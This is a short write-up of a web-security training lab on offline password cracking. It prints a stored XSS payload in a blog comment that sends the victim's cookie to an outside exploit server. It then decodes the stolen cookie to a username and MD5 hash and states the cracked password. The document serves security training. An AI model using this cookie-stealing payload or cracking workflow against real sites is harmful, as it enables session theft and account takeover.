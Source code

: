 # Offline password cracking

## This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

___


**<script>document.location='https://exploit-0a65001e048e11c1c00c3f5601990080.exploit-server.net/'+document.cookie</script>**

![screenshot](images/lab10_xss_store_eg.jpg)

![screenshot](images/lab10_exploit.jpg)

Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
after decode base64

carlos:26323c16d5f4dabff3bb136f2460a943

_26323c16d5f4dabff3bb136f2460a943_ is hash _onceuponatime_
